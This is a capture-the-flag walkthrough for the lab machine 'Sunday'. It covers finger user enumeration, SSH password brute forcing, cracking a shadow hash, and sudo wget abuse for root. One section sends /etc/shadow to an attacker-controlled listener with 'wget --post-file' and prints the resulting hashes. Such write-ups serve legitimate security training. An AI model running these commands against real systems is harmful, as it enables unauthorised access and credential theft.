


`Box: Linux`
`Level: Easy`
### Index
1. [`Box Info`](#`Box%20Info`)
2. [Initial Nmap Enum](#Initial%20Nmap%20Enum)
3. [`Port 79 - Finger Service`](#`Port%2079%20-%20Finger%20Service`)
	1. [`finger command on kali`](#`finger%20command%20on%20kali`)
	2. [`Crackmapexec to BruteForce password`](#`Crackmapexec%20to%20BruteForce%20password`)
	3. [`Elavate to Sammy's Account`](#`Elavate%20to%20Sammy's%20Account`)
	4. [`Cracking the Shadow Hash`](#`Cracking%20the%20Shadow%20Hash`)
4. [`Privilege Escalation`](#`Privilege%20Escalation`)
	1. [`sudo -l to check what I can run without PASSWD`](#`sudo%20-l%20to%20check%20what%20I%20can%20run%20without%20PASSWD`)
	2. [`Grabbing the root flag`](#`Grabbing%20the%20root%20flag`)
5. [`Web on Port 6787`](#`Web%20on%20Port%206787`)
6. [`Check if the target is vulnerable to ShellShock or not from CLI`](#`Check%20if%20the%20target%20is%20vulnerable%20to%20ShellShock%20or%20not%20from%20CLI`)
7. [`wget to POST/retrieve target file through Web Request`](#`wget%20to%20POST/retrieve%20target%20file%20through%20Web%20Request`)

### `Box Info`
```
Sunday is a fairly simple machine, however it uses fairly old software and can be a bit unpredictable at times. It mainly focuses on exploiting the Finger service as well as the use of weak credentials.
```

### Initial Nmap Enum
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.10.76                 
PORT      STATE SERVICE VERSION
79/tcp    open  finger?
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie: 
|_    Login Name TTY Idle When Where
|_finger: No one logged on\x0D
111/tcp   open  rpcbind 2-4 (RPC #100000)
515/tcp   open  printer
6787/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
22022/tcp open  ssh     OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:00:94:32:18:60:a4:93:3b:87:a4:b6:f8:02:68:0e (RSA)
|_  256 da:2a:6c:fa:6b:b1:ea:16:1d:a6:54:a1:0b:2b:ee:48 (ED25519)
```

### `Port 79 - Finger Service`
The Finger program/service is utilized for retrieving details about computer users. Typically, the information provided includes the user's login name, full name, and, in some cases, additional details. Let's enumerate it.
```
# echo "root" | nc -vn 10.10.10.76 79                   
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
root     Super-User            ssh          <Dec  7, 2023> 10.10.14.46         

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Sunday.htb]
└─# echo "sunday" | nc -vn 10.10.10.76 79
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
sunday                ???
```

So we know that the `root` user is present but when we try to enumerate `sunday` user, it just returns `???` means that user doesn't exist. Let's enumerate more users.
```
# for i in $(cat /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt);do echo $i | nc -vn 10.10.10.76 79; done
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
root     Super-User            ssh          <Dec  7, 2023> 10.10.14.46         
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
adm      Admin                              < .  .  .  . >
dladm    Datalink Admin                     < .  .  .  . >
netadm   Network Admin                      < .  .  .  . >
netcfg   Network Configuratio               < .  .  .  . >
dhcpserv DHCP Configuration A               < .  .  .  . >
ikeuser  IKE Admin                          < .  .  .  . >
lp       Line Printer Admin                 < .  .  .  . >
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
test                  ???
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
guest                 ???
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
info                  ???
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
adm      Admin                              < .  .  .  . >
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
mysql                 ???
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
aiuser   AI User                            < .  .  .  . >
openldap OpenLDAP User                      < .  .  .  . >
nobody   NFS Anonymous Access               < .  .  .  . >
noaccess No Access User                     < .  .  .  . >
nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
administrator         ???
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
oracle                ???
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
```

So basically other than `root` no one has a Shell `TTY` access.  I can also use `finger` command on kali to get little extra details
###### `finger command on kali`
```
# finger -l root@10.10.10.76
Login name: root                        In real life: Super-User
Directory: /root                        Shell: /usr/bin/bash
Last login Thu Dec  7, 2023 on ssh from 10.10.14.46
Unread mail since Wed Apr 13 15:20:46 2022
No Plan.
```

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools/PRET]
└─# echo "sunny" | nc -vn 10.10.10.76 79
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
sunny           ???            ssh          <Apr 13, 2022> 10.10.14.13         

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools/PRET]
└─# echo "sammy" | nc -vn 10.10.10.76 79
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
sammy           ???            ssh          <Apr 13, 2022> 10.10.14.13         
```

Found two more users. Sunny and Sammy. It is always a good idea to try out the box name as a password for all the users. I will compost the wordlist and try using `netexec` to bruteforce the password.

###### `Crackmapexec to BruteForce password`
```
# crackmapexec ssh 10.10.10.76 --port 22022 -u wordlist  -p wordlist                     
SSH         10.10.10.76     22022  10.10.10.76      [*] SSH-2.0-OpenSSH_8.4
SSH         10.10.10.76     22022  10.10.10.76      [-] sunday:sunday Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sunday:root Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sunday:sammy Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sunday:sunny Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sunday:admin Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] root:sunday Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] root:root Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] root:sammy Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] root:sunny Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] root:admin Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sammy:sunday Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sammy:root Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sammy:sammy Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sammy:sunny Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sammy:admin Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [+] sunny:sunday 
```

**The Reason I used crackmapexec and not netexec is because it was throwing an No Module Found For Impacket Error** 

```
# ssh sunny@10.10.10.76 -p 22022                                                 
(sunny@10.10.10.76) Password: 
Last login: Thu Oct  3 08:03:10 2024 from 10.10.14.8
Oracle Solaris 11.4.42.111.0                  Assembled December 2021
sunny@sunday:~$ id
uid=101(sunny) gid=10(staff)
sunny@sunday:~$ 
```

###### `Elavate to Sammy's Account`
Since I didn't  find a flag on `Sunny's` account, i will need a shell for the `sammy's` account.  Upon just typing the `history` command in `Sunny's` Shell, I notice that there was a shadow backup present.
```
sunny@sunday:~$ history
    1  su -
    2  su -
    3  cat /etc/resolv.conf 
    4  su -
    5  ps auxwww|grep overwrite
    6  su -
    7  sudo -l
    8  sudo /root/troll
    9  ls /backup
   10  ls -l /backup
   11  cat /backup/shadow.backup
   12  sudo /root/troll
   13  sudo /root/troll
   14  su -
   15  sudo -l
   16  sudo /root/troll
   17  ps auxwww
   18  ps auxwww
   19  ps auxwww
   20  top
   21  top
   22  top
   23  ps auxwww|grep overwrite
   24  su -
```

Catting the Shadowing Backup
```
sunny@sunday:~$ cat /backup/shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

###### `Cracking the Shadow Hash`
```
# hashcat -m 7400 -a 0 shadowkey /usr/share/wordlists/rockyou.txt
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
```

Cool. We got the password for `Sammy's` Shell. Let's SSH and get a user flag.
```
# ssh sammy@10.10.10.76 -p 22022
-bash-5.1$ id
uid=100(sammy) gid=10(staff)
-bash-5.1$ cat /home/sammy/user.txt
623w******************************
```

### `Privilege Escalation`

###### `sudo -l to check what I can run without PASSWD`
```
-bash-5.1$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

###### `Grabbing the root flag`
```
-bash-5.1$ sudo wget -i /root/root.txt
--2024-10-04 00:27:06--  http://cc83c333989e56fe7b9cab83e5d85780/
Resolving cc83c333989e56fe7b9cab83e5d85780 (cc83c333989e56fe7b9cab83e5d85780)... failed: temporary name resolution failure.
wget: unable to resolve host address ‘cc83c333989e56fe7b9cab83e5d85780’
-bash-5.1$ 
```

I was able to run the `wget command` without providing password so I used the `-i` switch to provide the `/root/root.txt` file as an input file and it prints the root flag.

### `Web on Port 6787`

Just a login page. 

### `Check if the target is vulnerable to ShellShock or not from CLI`

I saw the following way of checking for the ShellShock vulnerability in CLI. 


### `wget to POST/retrieve target file through Web Request`

On a kali Start nc listener on port 80
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Sunday.htb]
└─# nc -lvnp 80   
listening on [any] 80 ...
```

On a target use the `--post-file=` switch with Wget to retrieve the file content.
```
-bash-5.1$ sudo wget --post-file=/etc/shadow 10.10.14.8
--2024-10-04 04:45:35--  http://10.10.14.8/
Connecting to 10.10.14.8:80... connected.
HTTP request sent, awaiting response... 

```

Look at the NC Listener again and you'll see the file content
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Linux-Boxes/Sunday.htb]
└─# nc -lvnp 80   
listening on [any] 80 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.76] 59453
POST / HTTP/1.1
User-Agent: Wget/1.20.3 (solaris2.11)
Accept: */*
Accept-Encoding: identity
Host: 10.10.14.8
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 779

root:$5$rounds=10000$fIoXFZ5A$k7PlwsiH0wAyVOcKaAYl/Mo1Iq6XYfJlFXs58aA4Sr3:18969::::::23738933
daemon:NP:6445::::::
bin:NP:6445::::::
sys:NP:6445::::::
adm:NP:6445::::::
dladm:*LK*:17760::::::
netadm:*LK*:17760::::::
netcfg:*LK*:17760::::::
dhcpserv:*LK*:17760::::::
ftp:*LK*:17760::::::
sshd:*LK*:17760::::::
smmsp:NP:17760::::::
aiuser:*LK*:17760::::::
ikeuser:*LK*:17760::::::
lp:NP:6445::::::
openldap:NP:17760::::::
webservd:*LK*:17760::::::
unknown:*LK*:17760::::::
pkg5srv:NP:17760::::::
nobody:*LK*:17760::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$rounds=10000$lUpW4prM$aKFJxjI7vlcj5DDvwIgYGy707a84mIEi0ZQK3XIDqT2:18980::::::23501200
sunny:$5$rounds=10000$bioFdRBN$1TTdfQFfhjNicxWhH07f8BIHABZ8di01CXWYTT5rMn9:18980::::::23505168
_ntp:*LK*:19698::::::
```

